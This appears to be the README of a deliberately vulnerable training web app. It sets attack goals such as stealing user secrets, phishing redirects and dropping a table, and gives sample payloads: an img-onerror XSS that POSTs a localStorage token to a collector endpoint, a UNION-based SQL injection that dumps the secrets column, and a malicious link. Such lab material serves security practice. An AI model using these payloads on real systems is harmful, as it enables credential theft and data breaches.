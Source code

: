 Threats can be implemented:

1. SQL Injection on new user creation
2. Token stealing with violating CSP + XSS Injection
3. There is avatar upload - but user can upload an executable

There is special storage server, which you can use for temporary data containment: http://localhost:8080/side-service/ANYID. 
don't forget to change ID to any unique. You can store a string value by POST request and GET it after. This is in-memory storage, so may be wiped any second


Target is to do:

1. Steal any user's secret
2. Redirect users to the fishing site (use sap.com for example)
3. Drop Table
4. Steal all secrets

examples: XSS with IMG

Put it into the name field and login to another user - 
<img onerror="fetch(`http://localhost:8080/side-service/example`, {method: `POST`, body: localStorage.getItem(`me`)}).then(asd=>asd.toJson().then(res=>console.log(res)))" src="" />
stolen result will be visible at 
http://localhost:8080/side-service/example

example SQL Injection: %' UNION SELECT id, secret as name, null FROM users --
Linking to malicious site: <a href="http://malicious.com" target="_blank">Jack Black</a> instead of name